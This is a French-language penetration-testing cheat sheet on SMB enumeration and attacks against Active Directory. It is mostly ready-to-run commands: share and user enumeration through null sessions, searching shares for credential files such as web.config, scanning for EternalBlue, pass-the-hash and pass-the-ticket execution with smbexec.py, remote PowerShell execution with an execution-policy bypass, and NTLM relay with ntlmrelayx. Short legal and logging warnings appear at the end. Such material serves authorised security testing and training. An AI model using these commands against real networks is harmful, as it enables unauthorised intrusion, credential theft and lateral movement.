

L'énumération **SMB** est une étape critique dans l'audit d'un environnement **Active Directory**. Elle permet de cartographier les ressources partagées, d'identifier les utilisateurs et de préparer les vecteurs de **Lateral Movement**.



> [!warning] Attention :
> L'énumération **SMB** est bruyante et génère des logs Event ID 4624, 4662, 4776.

> [!info] Prérequis :
> La plupart des outils **Impacket** nécessitent une résolution DNS correcte ou un fichier /etc/hosts configuré.

## Détection des Partages SMB

### Windows / PowerShell
```powershell
net view \\<IP ou NOM_DNS>
Get-SmbShare -CimSession <IP>
```

### Linux
```bash
smbclient -L //<IP> -U "anonymous%"
enum4linux -S <IP>
netexec smb <IP> --shares -u '' -p ''
nmap --script smb-enum-shares -p 445 <IP>
```

## Techniques de Null Session vs Guest Session

La distinction est fondamentale pour l'énumération initiale :
- **Null Session** : Connexion sans utilisateur ni mot de passe (souvent bloquée par les GPO modernes).
- **Guest Session** : Connexion avec l'utilisateur "Guest" (parfois activé par défaut).

```bash
# Test Null Session
smbclient -L //<IP> -U ""%""
# Test Guest Session
smbclient -L //<IP> -U "Guest"%""
```

## Analyse des permissions ACL sur les partages

L'énumération des permissions est cruciale pour identifier les partages accessibles en écriture ou lecture par des utilisateurs non privilégiés.

```bash
# Via smbmap
smbmap -H <IP> -u "user" -p "password" --perms

# Via PowerShell (si accès distant)
Get-SmbShareAccess -Name "ShareName"
```

## Recherche de fichiers sensibles (web.config, scripts, sauvegardes)

La recherche automatisée permet d'extraire des identifiants stockés en clair ou des scripts d'administration.

```bash
# Recherche récursive via smbmap
smbmap -H <IP> -u "user" -p "password" -R --search "web.config" "pass" "backup"

# Téléchargement via netexec
netexec smb <IP> -u "user" -p "password" --get-file "C$\inetpub\wwwroot\web.config" "web.config.local"
```

## Analyse des vulnérabilités SMB (ex: EternalBlue, SMBGhost)

L'identification des versions vulnérables permet de déterminer si une exploitation directe est possible.

```bash
# Scan de vulnérabilités via nmap
nmap -p 445 --script smb-vuln* <IP>

# Vérification spécifique (ex: MS17-010)
nmap -p 445 --script smb-vuln-ms17-010 <IP>
```

## Enumération des Utilisateurs AD via SMB

### Outils d'énumération
```bash
rpcclient -U "" <IP>
# Dans le shell rpcclient :
enumdomusers

netexec smb <IP> -u '' -p '' --users
lookupsid.py anonymous@<IP>
smbclient -N -L //<IP>
nmap --script smb-enum-users -p 445 <IP>
```

## Récupération des Groupes et Membres

### Extraction des groupes
```bash
rpcclient -U "" <IP>
# Dans le shell rpcclient :
enumdomgroups

netexec smb <IP> -u '' -p '' --groups
rpcdump.py @<IP> | grep -i "Group"
```

### Membres de groupes
```powershell
Get-ADGroupMember -Identity "<GROUPE>"
```

## Accès Anonyme et Extraction d’Informations

### Tests de session nulle
```bash
smbclient -L //<IP> -N
netexec smb <IP> -u '' -p '' --shares
smbclient //<IP>/SHARE -U "anonymous%"
enum4linux -a <IP>
smbmap -H <IP>
```

## Extraction de Fichiers Sensibles

### Manipulation de fichiers
```powershell
# PowerShell
Copy-Item "\\<IP>\SHARE\file.txt" -Destination "C:\Users\Public"

# smbclient
smbclient //<IP>/SHARE -U "user" -c "get file.txt"
smbclient //<IP>/SHARE -U "user" -c "ls"

# smbmap
smbmap -H <IP> -u "user" -p "password" -r

# netexec
netexec smb <IP> -u "user" -p "password" --download SHARE/file.txt
```

## Attaque Lateral Movement

### Techniques d'exécution
```bash
# Pass-The-Hash avec smbexec.py
smbexec.py DOMAIN/user@<IP> -hashes :<NTLM_HASH>

# Pass-The-Ticket
export KRB5CCNAME=/tmp/ticket.ccache
smbexec.py -k -no-pass <IP>

# Exécution de commandes avec netexec
netexec smb <IP> -u "user" -p "password" -x "whoami"
netexec smb <IP> -u "user" -p "password" -X "powershell -ep bypass -File C:\Users\Public\script.ps1"
```

## Détection et Contournement des Restrictions

### Audit de configuration
```bash
# Vérification du Signing
smbclient.py -debug 1 -U user@<IP>
netexec smb <IP> --shares -u '' -p '' --gen-relay-list targets.txt

# Vérification LAPS et GPO
Get-ADComputer -Filter * -Property ms-Mcs-AdmPwd
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name LmCompatibilityLevel
```

### Contournement
```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

> [!danger] Danger :
> L'utilisation de **ntlmrelayx** peut entraîner un crash de services ou une instabilité sur les cibles non patchées.

> [!tip] Tip :
> Toujours vérifier le statut du **SMB Signing** avant de tenter une attaque par relay.

## Sécurité et Notes Légales

| Risque | Impact |
| :--- | :--- |
| Logs SIEM | Détection via Event ID 4624, 4662, 4776 |
| Stabilité | Risque de crash des services lors de relay |
| Légalité | Énumération non autorisée strictement interdite |

*   **Active Directory Enumeration**
*   **NTLM Relay Attacks**
*   **Kerberoasting and AS-REP Roasting**
*   **Lateral Movement Techniques**
*   **SMB Signing and Relay**